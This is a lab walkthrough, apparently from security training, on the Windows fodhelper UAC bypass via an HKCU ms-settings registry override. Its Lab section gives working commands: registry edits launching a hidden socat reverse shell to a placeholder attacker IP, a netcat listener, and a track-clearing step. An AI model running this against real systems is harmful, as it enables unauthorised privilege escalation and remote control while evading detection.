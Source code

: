 # AutoElevating processes

Some executables can autoelevate, achieving high IL without any user intervention. This applies to most of the 
Control Panel's functionality and some executables provided with Windows.

* `mmc.exe` will auto elevate depending on the `.msc` snap-in that the user requests. Most of the `.msc` files included with Windows will auto elevate.
* Windows keeps an additional list of executables that auto elevate even when not requested in the manifest. This list includes `pkgmgr.exe` and `spinstall.exe`.
* COM objects can also request auto-elevation by [configuring some registry keys](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker).

For an application, to auto-elevate:

* The executable must be signed by the Windows Publisher.
* The executable must be contained in a trusted directory, like `%SystemRoot%/System32/` or `%ProgramFiles%/`.

Depending on the type of application, additional requirements may apply:

* Executable files must declare the `autoElevate` element inside their manifests. 

To check a file's manifest using sigcheck (part of the Sysinternals suite):

```text
C:\tools\> sigcheck64.exe -m c:/windows/system32/msconfig.exe
...
<asmv3:application>
	<asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
		<dpiAware>true</dpiAware>
		<autoElevate>true</autoElevate>
	</asmv3:windowsSettings>
</asmv3:application>
```

## Fodhelper

`Fodhelper.exe` is one of Windows default executables in charge of managing Windows optional features, including 
additional languages, applications not installed by default, or other operating system characteristics. Like most of 
the programs used for system configuration, fodhelper can auto elevate when using default UAC settings so that 
administrators won't be prompted for elevation when performing standard administrative tasks. 

fodhelper can be abused without having access to a GUI. It can be used through a medium integrity remote shell and 
leveraged into a fully functional high integrity process. This particular technique was discovered by 
[winscripting](https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/) and has been used in the 
wild by the Glupteba malware.

When Windows opens a file, it checks the registry to know what application to use. The registry holds a key known as 
Programmatic ID (`ProgID`) for each filetype, where the corresponding application is associated. When for example, 
trying to open an HTML file, a part of the registry known as the `HKEY_CLASSES_ROOT` will be checked so that the 
system knows that it must use your preferred web client to open it. The command to use will be specified under the 
`shell/open/command` subkey for each file's `ProgID`. 

In reality, HKEY_CLASSES_ROOT is just a merged view of two different paths on the registry:

| Path	                               | Description                     |
|:------------------------------------|:--------------------------------|
| HKEY_LOCAL_MACHINE\Software\Classes | System-wide file associations   |
| HKEY_CURRENT_USER\Software\Classes  | Active user's file associations |

When checking `HKEY_CLASSES_ROOT`, if there is a user-specific association at `HKEY_CURRENT_USER` (`HKCU`), it will 
take priority. If no user-specific association is configured, then the system-wide association at `HKEY_LOCAL_MACHINE` 
(`HKLM`) will be used instead. This way, each user can choose their preferred applications separately if desired.

`fodhelper` searches the registry for a specific key of interest under the ms-settings `ProgID`. By creating an 
association for that `ProgID` in the current user's context under `HKCU`, we will override the default system-wide 
association and, therefore, control which command is used to open the file. Since `fodhelper` is an `autoElevate` 
executable, any subprocess it spawns will inherit a high integrity token, effectively bypassing UAC.

## Lab

Note: Defender is disabled. For abusing fodhelper with Defender enabled, see [Improve fodhelper exploit](fodhelper.md).

One of our agents has planted a backdoor on the target server for your convenience. He managed to create an account 
within the Administrators group, but UAC is preventing the execution of any privileged tasks. To retrieve the flag, 
he needs you to bypass UAC and get a fully functional high IL shell.

To connect to the backdoor:

    nc MACHINE_IP 9999

Once connected, check if our user is part of the Administrators group and that it is running with a medium integrity 
token:

```text
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
myserver\attacker

C:\Windows\system32>net user attacker | find "Local Group"
Local Group Memberships      *Administrators       *Users                

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
```

Set the required registry values to associate the ms-settings class to a reverse shell using socat. 
we need to create an empty value called DelegateExecute for the class association to take effect. If this registry 
value is not present, the operating system will ignore the command and use the system-wide class association instead.

```text
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f
The operation completed successfully.
```

Set up a listener on the attack machine:

    nc -lvp 4444

And execute fodhelper on the target machine:

    C:\> fodhelper.exe

In the reverse shell, check:

```text
C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

Get the flag:

```text
C:\> C:\flags\GetFlag-fodhelper.exe
```

And clear tracks:

    reg delete HKCU\Software\Classes\ms-settings\ /f